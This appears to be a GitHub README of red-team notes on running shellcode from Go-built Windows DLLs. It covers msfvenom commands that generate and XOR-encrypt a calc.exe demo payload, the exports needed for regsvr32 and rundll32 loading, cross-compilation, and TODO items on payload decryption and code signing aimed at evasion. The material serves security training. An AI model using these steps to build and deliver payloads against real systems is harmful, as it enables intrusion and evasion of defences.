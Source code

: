 ## Shellcode Execution with GoLang
This is a rip off of [blackhillsinfosec.com/webcast-shellcode-execution-with-golang](https://www.blackhillsinfosec.com/webcast-shellcode-execution-with-golang/) with some anotations made by me regarding payload creation and env setup / cross compilation.

## generate shellcode
`c#` formatted shellcode can be used with minimal adjustments in go
```
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
```

Create xored payload with `msfvenom`, other algorithms can be used. See list of algorithms supported by `msfvenom` with `msfvenom --list encrypt` 
```
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp --encrypt xor --encrypt-key "\x31"
```
If you don't escape hex bytes like shown, the encrypt-key is interpreted as 

## DLL creation
- include an Exported function (start function name with capital letter) and a comment above it that includes the export keyword and the function name
```go
import "C"

//export Engage
func Engage() {
	testDLLExportedFunction()
}
```

## regsvr32 dll
A Dll created for use with regsvr32 needs to implement specific methods. This can be done through defining the following 4 exports:
- EntryPoint()
- DllRegisterServer()
- DllUnregisterServer()
- DllInstall()
	
All four need to return boolean (True for success). The payload call can be put in either of the four.

## compile
Download the project and load dependencies. This can be done through `go mod`
```
go mod init && go mod tidy
```
Once compiled the code from **method1** can be run with the exported function `Engage`
```
rundll32.exe go.dll, Engage
```


### compile on windows
This needs golang obviously but also mingw for DLL creation.

Easiest way of setting everything up is by isntalling it through `chocolatey`. This also adds necessary environment variables.

Run 
```
choco install -y vscode golang mingw
```

Building the Dll can then be done with
```
go build -buildmode=c-shared -o go.dll main.go
```

### cross compile DLL on linux
Cross compilation on Linux is possible but needs some further setup. I have collected some pointers towards setup here, but this needs additional refinement.

Based on this stackoverflow post (https://stackoverflow.com/questions/49078510/trouble-compiling-windows-dll-using-golang-1-10), the following is necessary:

Install `mingw` for cross compilation

```
sudo apt install gcc-mingw-w64-i686 gcc-mingw-w64-x86-64 
```
Compile x86 / 32 bit version for Windows on Ubuntu: 
```
env GOOS=windows GOARCH=386 CGO_ENABLED=1 CC=i686-w64-mingw32-gcc go build -buildmode=c-shared -o main.dll main.go 
```
or x86-64 / **64 bit version**
```
env GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -o main.dll main.go 
```


## TODO
- implement arbitrary length xor function
- implement AES decryption
- implement RC4 decryption
- check out calling shellcode by casting alloc mem to function pointer (https://stackoverflow.com/questions/3601796/can-we-have-function-pointers-in-go)
- look into code signing with SignTool.exe replacements on linux like [signcode](https://linux.die.net/man/1/signcode) and [osslsigncode](https://stackoverflow.com/questions/18287960/signing-windows-application-on-linux-based-distros)
- look into tool to add manifest from linux

## links 
https://github.com/yoda66/GoShellcode


